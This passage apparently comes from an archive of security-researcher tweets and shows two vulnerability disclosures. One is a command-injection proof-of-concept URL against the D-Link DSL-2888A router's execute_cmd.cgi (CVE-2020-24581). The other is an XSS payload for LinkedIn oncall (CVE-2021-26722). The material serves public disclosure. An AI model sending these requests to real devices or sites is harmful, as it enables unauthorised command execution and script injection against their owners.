 D-link DSL-2888A is a unified service router of China D-link company

PoC
http:/xxx/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&amp;cmd=uname -a

https://t.co/o1vMXImUg4 https://t.co/1t3of3LUbs
</blockquote>

* https://reconshell.com/cve-2020-24581-d-link-dsl-2888a-remote-command-execution/

<table><tr>
<td><img src="pictures/42a5e2d49af203aeabb185601fa42104302ec89fb9ebc445967b6e5f10b272fa.jpg" alt="42a5e2d49af203aeabb185601fa42104302ec89fb9ebc445967b6e5f10b272fa.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358451170377801731 _at 2021-02-07, 16:22:52_**
<blockquote>
XSS In LinkedIn oncall (CVE-2021-26722)

Poc:
/query/&lt;img src=x onerror=alert('xss')&gt;
Pic:
https://t.co/5O6agyk154 https://t.co/UaQ2TWktGI
</blockquote>

* https://github.com/linkedin/oncall/issues/341

<table><tr>
<td><img src="pictures/ca03d964130b10ab1599e19e04c6af042d0bebfedb1244d236c2ae6f7e003ef6.jpg" alt="ca03d964130b10ab1599e19e04c6af042d0bebfedb1244d236c2ae6f7e003ef6.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---